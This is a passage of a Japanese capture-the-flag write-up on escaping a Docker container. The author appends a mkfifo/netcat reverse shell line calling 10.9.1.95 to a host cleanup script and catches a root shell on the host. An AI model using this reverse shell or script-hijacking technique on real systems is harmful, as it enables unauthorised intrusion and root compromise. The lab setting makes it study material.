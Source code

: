 - cleanディレクトリには/tmpを削除するバッチがおいてある

```
root@7546fa2336d6:/tmp# ls -al /opt/clean/
total 16
drwxr-xr-x 2 root root 4096 May  1 00:20 .
drwxrwxr-x 1 root root 4096 Mar 25 16:08 ..
-rw-r--r-- 1 root root   27 May  1 00:20 clean.sh
root@7546fa2336d6:/tmp# cat /opt/clean/clean.sh 
#!/bin/bash

rm -rf /tmp/*

```
- しかし、今いる/tmpディレクトリは削除されていない
- このことから、dockerのホスト側の/tmpディレクトリを定期的に削除するようなバッチであると推測
```
root@7546fa2336d6:/tmp# ls
linpeas.sh  out.txt

```


# バッチをリバースシェルのスクリプトに書き換え、Dockerのホストにリモートアクセス+フラグ取得

- リバースシェルを実行するスクリプトをclean.shに追記
```
root@7546fa2336d6:/tmp# echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.95 4321 >/tmp/f" >>/opt/clean/clean.sh
root@7546fa2336d6:/tmp# cat /opt/clean/clean.sh 
#!/bin/bash

rm -rf /tmp/*
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.95 4321 >/tmp/f
root@7546fa2336d6:/tmp# client_loop: send disconnect: Broken pipe
```

- しばらくするとシェルがつながってrootになれる
```
└─# nc -lnvp 4321         
listening on [any] 4321 ...
connect to [10.9.1.95] from (UNKNOWN) [10.10.169.95] 32808
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# ls     
firewall
root.txt

```
